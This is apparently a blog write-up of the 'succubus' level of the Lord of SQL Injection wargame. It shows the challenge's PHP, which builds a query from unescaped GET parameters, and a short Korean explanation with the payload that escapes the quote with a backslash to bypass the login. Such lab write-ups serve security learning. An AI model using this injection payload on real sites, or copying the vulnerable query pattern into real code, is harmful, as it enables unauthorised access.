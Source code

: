 ```yaml
---
layout: post
title:  "los prob_succubus"
date:   2019-10-22
excerpt: "Lord of Sql Injection"
tag:
- los
- sqli
- wargame
- webhacking
comments: true
---
```

> query : select id from prob_succubus where id='' and pw=''

~~~ php
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/\'/',$_GET[id])) exit("HeHe");
  if(preg_match('/\'/',$_GET[pw])) exit("HeHe");
  $query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) solve("succubus"); 
  highlight_file(__FILE__); 
?>
~~~

# Solve
1. "\" 사용 -> '(싱글쿼터)를 문자열로 취급

### ?id=\&pw=%20or%201%23

## SUCCUBUS Clear!

